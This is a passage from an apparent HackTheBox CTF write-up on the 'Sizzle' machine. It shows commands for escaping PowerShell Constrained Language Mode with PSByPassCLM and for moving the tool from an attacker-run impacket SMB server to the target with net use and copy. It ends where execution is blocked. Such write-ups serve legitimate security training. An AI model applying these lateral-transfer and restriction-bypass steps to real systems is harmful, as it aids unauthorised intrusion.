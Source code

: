 
To bypass this, we can use something like [PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM). I decided to use the available compiled version at `PSByPassCLM/PSBypassCLM/PSBypassCLM/bin/x64/Debug/` as our target's architecture is X64:

```powershell
$Env:PROCESSOR_ARCHITECTURE
```

![arch-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/arch-30.png)


Because we are in a constrained shell, most file transfer methods will be blocked. Though I found that we can transfer files using an SMB server. 


After grabbing a copy of `PsBypassCLM.exe` to my working directory, I start the SMB sever on my attack machine as such:

```bash
impacket-smbserver -smb2support -username htb -password htb s .
```

Then, I connect to this share form the target, and copy the file over:

```powershell
net use \\10.10.14.51\s /u:htb htb
copy \\10.10.14.51\s\bypassCLM.exe 
```

![copy-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/copy-31.png)


But when executing the file I got denied:

![blocked-32](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sizzle/img/blocked-32.png)
